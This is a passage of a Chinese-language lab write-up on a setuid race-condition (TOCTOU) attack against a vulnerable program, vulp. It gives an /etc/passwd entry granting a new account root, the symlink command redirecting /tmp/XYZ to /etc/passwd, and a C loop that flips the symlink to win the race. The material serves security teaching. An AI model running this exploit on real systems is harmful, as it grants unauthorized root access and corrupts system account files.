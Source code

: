 重新编译`vulp.c`，设为root所有的`setuid`程序。（因为改`etc/passwd`需要root）

![image-20220504213026210](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012323463.png)

![image-20220504213434920](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324622.png)

> linux系统中每个进程都有2个ID，分别为用户ID（uid）和有效用户ID（euid），UID一般表示进程的创建者（属于哪个用户创建），而EUID表示进程对于文件和资源的访问权限（具备等同于哪个用户的权限）。
>
> ![image-20220512140239548](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324984.png)

手动修改链接：

![image-20220504213103667](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324586.png)

运行`./vulp`，用户输入为要写入`/etc/passwd`的字符串：`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`。在输入完成的十秒内，在另一个中断中执行命令`ln -sf /etc/passwd /tmp/XYZ`，使`/tmp/XYZ`链接到`/etc/passwd`。

![image-20220504213841777](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324276.png)

![image-20220504213853734](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324351.png)

`cat /etc/passwd`发现成功写入：

![image-20220504214355194](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324482.png)



#### Task 2.B: The Real Attack

编写攻击程序，逻辑和上面的Task 2.A相同，先废除旧的链接让`/tmp/XYZ`链接到`/dev/null`，然后再废除链接让`/tmp/XYZ`链接到`/etc/passwd`。为避免切换太快，每次链接后`usleep(1000);`。

`target_process.sh`会一直尝试，总会试到一次攻击通过了`acess`检查，打开文件后，`/tmp/XYZ`被链接到`/etc/passwd`，然后就可以修改`/etc/passwd`文件了。

```c
#include <unistd.h>
 
int main()
{
    while(1){
        unlink("/tmp/XYZ");
        symlink("/dev/null","/tmp/XYZ");
        usleep(1000);
 
        unlink("/tmp/XYZ");
        symlink("/etc/passwd","/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```
